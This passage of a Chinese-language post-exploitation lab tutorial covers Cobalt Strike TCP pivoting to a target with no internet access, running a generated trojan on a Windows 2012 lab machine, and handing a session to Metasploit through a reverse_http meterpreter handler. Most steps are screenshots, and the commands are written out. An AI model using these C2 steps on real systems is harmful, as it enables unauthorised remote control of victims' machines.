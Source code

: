 ##### 断开连接

在刚才的会话中输入如下命令即可

```python
unlink 192.168.70.21
```

![image-20241008171657763](https://image.201068.xyz/assets/38.后渗透/image-20241008171657763.png)

### TCP上线

- 使用场景：目标主机不出网，已拿到目标主机上传和执行的权限时进行上线


#### Cobalt Strike 新建 TCP 监听器

![image-20241008172318194](https://image.201068.xyz/assets/38.后渗透/image-20241008172318194.png)

#### 使用 TCP 监听器生成无状态木马



![image-20241008172346143](https://image.201068.xyz/assets/38.后渗透/image-20241008172346143.png)

![image-20241008173418540](https://image.201068.xyz/assets/38.后渗透/image-20241008173418540.png)

#### 将木马放到win2012靶机运行

![image-20241008173459051](https://image.201068.xyz/assets/38.后渗透/image-20241008173459051.png)

#### 在能和靶机连通的win10会话中输入命令

```python
connect 192.168.70.21 6002
```

![image-20241008173607670](https://image.201068.xyz/assets/38.后渗透/image-20241008173607670.png)

### Cobalt Strike 会话转移到 msf

在 Cobalt Strike **新建监听器**，

payload 选择 `Foreign HTTP` 或者 `Foreign HTTPS`

Host填写 `msf` 的 IP，端口自定义即可

![image-20241009094006807](https://image.201068.xyz/assets/38.后渗透/image-20241009094006807.png)


设置完成后启动 msf ,然后执行以下命令

```python
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_http
set lhost 192.168.70.4
set lport 6004
run
```
